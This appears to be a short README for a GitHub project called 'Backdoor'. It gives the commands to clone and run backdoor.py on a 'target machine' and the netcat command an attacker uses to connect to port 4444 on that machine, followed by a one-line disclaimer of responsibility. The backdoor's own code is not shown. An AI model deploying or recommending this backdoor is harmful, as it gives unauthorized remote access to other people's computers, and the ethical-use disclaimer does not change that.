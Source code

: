 ### Target machine execution

```
  git clone https://github.com/666aalexx/Backdoor.git
  
  cd Backdoor/
  
  chmod +x backdoor.py
  
  python3 backdoor.py
```

### Attacker execution
```
  apt install netcat

  nc target 4444
```

### Usage
This script is intended for ethical purposes. I am not responsible for any misuse of it.
